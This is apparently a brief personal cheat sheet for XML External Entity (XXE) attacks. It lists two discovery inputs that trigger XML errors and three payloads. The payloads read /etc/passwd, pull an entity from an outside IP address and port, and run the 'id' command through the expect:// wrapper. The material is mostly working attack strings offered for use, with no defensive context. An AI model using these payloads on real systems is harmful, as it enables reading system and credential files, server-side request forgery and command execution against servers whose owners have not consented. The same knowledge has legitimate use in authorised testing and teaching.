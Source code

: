 # XXE

## Discovery
- Find ```xml``` in error of these payloads
  - ```.php?xml=>```
  - ```.php?xml=/>```

## Payloads
- ```<!DOCTYPE foo[<!Entity xxe SYSTEM "file:///etc/passwd">]> <foo>&xxe;</foo>```
- ```<!DOCTYPE data [<!ENTITY passwd SYSTEM "http://192.255.164.2:9000/helloworld">]> <data><text>&passwd;</text></data>```
- ```<!Entity xxe SYSTEM "expect://id">]>```
